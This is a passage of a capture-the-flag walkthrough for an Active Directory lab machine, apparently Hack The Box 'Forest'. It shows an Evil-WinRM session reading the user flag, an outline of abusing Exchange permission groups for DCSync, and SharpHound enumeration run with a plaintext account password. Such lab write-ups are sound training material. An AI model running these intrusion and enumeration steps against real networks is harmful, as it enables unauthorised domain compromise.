 ```
Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-ar---        9/23/2019   2:16 PM             32 user.txt                                                                                                                                                                                                


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
e5e4e**********************0d9ed
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> 
```

**AND we found the USER flag using svc-alfresco which resided in the account's Desktop directory.**



## Privilege Escalation

We need to get a deeper understanding of this AD environment and the accounts rights. There is a vulnerability in Exchange environments and two groups that would allow some accesses that should not happen, like account modification, and to escalate privileges, accounts in these groups would only need DCSync permissions, quite possible to do. Explained further in Resource #6.

This information can be also found through LDAP and/or by using [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump): EXCHANGE TRUSTED SUBSYSTEM and EXCHANGE WINDOWS PERMISSIONS.

Let's use [Bloodhound/Sharphound](https://github.com/BloodHoundAD/BloodHound) through our current session in evil-winrm.

NOTE: To do this, you must first have Bloodhound setup and configured, a walkthrough by itself that I will skip. Also, pay close attention to the syntax when using Sharphound powershell script.


### SHARPHOUND
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> upload ./ps1_scripts/SharpHound.ps1
Info: Uploading ./ps1_scripts/SharpHound.ps1 to C:\Users\svc-alfresco\Downloads\SharpHound.ps1

Data: 1226060 bytes of 1226060 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> import-module .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> Invoke-BloodHound -Domain HTB -LDAPUser svc-alfresco -LDAPPass s3rvice -CollectionMethod All -ZipFileName test.zip
*Evil-WinRM* PS C:\Users\svc-alfresco\Downloads> ls


    Directory: C:\Users\svc-alfresco\Downloads


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----         1/9/2020   8:31 PM           8978 Rk9SRVNU.bin                                                                                                                                                                                            
```